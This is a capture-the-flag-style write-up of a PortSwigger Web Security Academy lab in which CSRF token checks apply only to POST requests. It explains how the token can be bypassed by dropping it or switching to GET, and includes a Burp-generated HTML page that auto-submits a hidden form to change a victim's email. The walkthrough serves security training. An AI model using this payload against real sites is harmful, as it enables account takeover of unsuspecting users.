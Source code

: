 ```yaml
---
title: 'Lab: CSRF where token validation depends on request method'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: CSRF where token validation depends on request method
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`


## Recon
1. Login and update email to trace the package
Like the previous lab, we first login to the website and update the email. At the same time, we can trace update email package shown below:
![](https://i.imgur.com/ju0fDUQ.png)
We can notice that the carried data including `csrf_token`
2. According to [从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618) and [CSDN write up](https://blog.csdn.net/ZripenYe/article/details/120793710)
    :::info
    We know that using some technique can bypass this protection $\to$
        1. <font color="FF0000">**Delete `csrf_token` data**</font>
        2. <font color="FF0000">**change `POST` method to `GET` method**</font>

    In this lab, we use the 2nd method to bypass CSRF
    :::
![](https://i.imgur.com/U0mBdv8.png)
You can see that the response status is 302 which means it's a good way to forge a CSRF package

## Exp - Change POST to GET to bypass CSRF
Follow the self-created package at previous lab
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
 
    <form action="https://0a9700ef04043a66801b0d0e00d10084.web-security-academy.net/my-account/change-email?email=bernie6401%40gmail.com" method="GET">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/lKFkGTy.png)
:::

## Reference
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)